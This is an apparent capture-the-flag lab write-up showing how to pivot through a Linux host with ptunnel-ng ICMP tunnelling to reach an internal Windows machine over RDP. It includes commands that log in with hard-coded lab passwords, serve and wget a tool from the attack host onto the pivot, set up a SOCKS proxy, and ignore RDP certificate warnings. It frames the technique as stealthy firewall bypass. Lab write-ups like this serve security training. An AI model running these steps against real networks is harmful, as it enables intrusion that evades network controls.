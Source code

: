```yaml
---
title: ICMP Tunneling with ptunnel-ng to Access Internal Windows Host
author: saramazal
date: 2025-06-18
categories: [Pivoting]
tags: [pivoting, tunelling, ptunnel-ng, rce, xfreerdp, ssh, sshpass, scp, python server,]     # TAG names should always be lowercase
img_path: /images/covers
image:
  path: /images/covers/pivoting.jpg
---
```


# 🛰️ ICMP Tunneling with ptunnel-ng & SOCKS: Pivot to WinTarget

In this lab, we demonstrate how to use `ptunnel-ng` to establish an ICMP-based tunnel from an **Attack Host** to a **Pivot Host**, and then pivot further to a **Windows Target** to retrieve a flag.

---

## 🔧 Environment Setup

```bash
# Set Environment Variables
export AttackHost=10.10.xx.xx
export PivotHost=10.129.xx.xx
export WinTargetIp=172.16.xx.xx

export username=ubuntu
export passwd='pivotpass123'

export winuser=winuser
export winpasswd='pass@123'
````

---

## 🐚 Access Pivot Host

```bash
# Using sshpass to connect
sshpass -p "$passwd" ssh $username@$PivotHost
```

---

## 🛠️ Clone & Build ptunnel-ng

```bash
# On Attack Host
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/
sudo apt install automake autoconf -y

# Patch autogen.sh for static build
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

./autogen.sh
```

---

## 📦 Transfer to Pivot Host

```bash
# Serve files from Attack Host
python3 -m http.server 8123

# On Pivot Host (via SSH)
wget http://$AttackHost:8123/ptunnel-ng.tar.gz
tar -xvzf ptunnel-ng.tar.gz
```

Or using SCP:

```bash
scp -r ptunnel-ng $username@$PivotHost:~/
```

---

## 📡 Start ptunnel-ng Server on Pivot

```bash
# On Pivot Host
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r$WinTargetIp -R3389
```

---

## 🔁 Start ptunnel-ng Client on Attack Host

```bash
# On Attack Host
cd ptunnel-ng/src
sudo ./ptunnel-ng -p$PivotHost -l2222 -r$WinTargetIp -R3389
```

---

## 🧠 Connect via SSH or SOCKS

```bash
# Option 1: Direct tunnel to pivot (useful for shell)
ssh -p2222 -l$username 127.0.0.1

# Option 2: Dynamic SOCKS proxy
ssh -D 9050 -p2222 -l$username 127.0.0.1
```

---

## 🖥️ Access WinTarget via RDP

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd
```

If prompted with cert warnings, ignore them using:

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd /cert-ignore
```

---

## 🏁 Retrieve the Flag

Once connected to the desktop or through shell access, retrieve:

```cmd
type C:\Users\winuser\Downloads\flag.txt
```

---

## ✅ Success!

You’ve successfully tunneled through ICMP from your Attack Box to the DC, bypassing traditional firewall rules. This technique is stealthy and powerful in restricted environments.

---

*Stay sneaky, stay ethical.* 🕶️

**~ Maz4l 🤺**

---